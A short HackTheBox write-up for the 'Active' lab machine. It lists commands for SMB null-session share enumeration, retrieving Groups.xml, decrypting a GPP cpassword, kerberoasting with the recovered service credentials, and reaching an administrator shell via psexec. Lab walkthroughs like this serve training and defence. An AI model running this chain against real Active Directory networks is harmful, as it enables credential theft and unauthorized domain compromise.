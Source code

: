 ```yaml
---
layout: post
title: "Active"
date: 2024-12-28
categories: hackthebox
---
```


starting with nmap 
`sudo nmap -sC -sV -p- -oN active -T4 10.10.10.100`
![[Pasted image 20240525110417.png]]


smb null session is allowed , let's explore open shares
`nxc smb 10.10.10.100 -u '' -p '' --shares -M spider_plus
`
![[Pasted image 20240525110701.png]]
Groups.xml looks juicy
![[Pasted image 20240525110751.png]]


let's connect to this share ,and get this file

`smbclient -N \\\\10.10.10.100\\Replication -U ''`

we found cpassword , we can decrypt it using ==gpp-decrypt==
![[Pasted image 20240525110913.png]]

`gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
`
![[Pasted image 20240525111021.png]]

we got creds for thje SVC_TGS
![[Pasted image 20240525111146.png]]


let's try kerberoasting attack using the creds we found

`nxc ldap 10.10.10.100 -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' --kerberoast kerberoasting`
![[Pasted image 20240525111243.png]]

let's try to crack it

![[Pasted image 20240525111411.png]]

we can now get psexec to get shell on the box as administrator 

![[Pasted image 20240525111519.png]]